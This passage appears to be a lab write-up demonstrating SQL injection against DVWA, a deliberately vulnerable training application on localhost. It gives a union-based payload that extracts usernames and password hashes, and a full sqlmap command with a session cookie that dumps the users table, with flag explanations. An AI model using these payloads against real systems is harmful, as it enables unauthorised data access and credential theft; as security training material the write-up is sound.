 Cookies used: the active `PHPSESSID` and `security=low` are required for `sqlmap` attacks.

---

## 3. Attack scenarios

### A. Manual SQL Injection (union-based)

1. Open the DVWA SQLi page in your browser.
2. In the `id` parameter input, inject a union query to dump the `users` table fields:

Example payload (union-based):

```
1 UNION SELECT user, password FROM users#
```

`#` is a comment in MySQL and truncates the rest of the SQL.

When executed on a vulnerable page, this will cause the application to display the username and hashed password columns.

### B. Automated dump using `sqlmap`

You can automate discovery & dump using `sqlmap`.

Example `sqlmap` command used in this demo (note: adjust cookie and URL for your setup):

```
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=18&Submit=Submit" \
  --cookie="PHPSESSID=6dd0a943453e9825ba2a379361f6a5bf; security=low" \
  -p id --batch --dump -T users -C user,password
```

Explanation of flags:

* `-u` : target URL
* `--cookie` : provide session cookie (DVWA requires login/session)
* `-p` : parameter to test (`id`)
* `--batch` : non-interactive
* `--dump` : dump table contents
* `-T users` : target table
* `-C user,password` : columns to dump

**Example output:**

`sqlmap` will identify injectable parameter(s) and dump the requested columns showing usernames and password hashes.

---

## 4. Demonstration commands (what I ran)

Manual payload used in the DVWA form input:

```
1 UNION SELECT user, password FROM users#
```
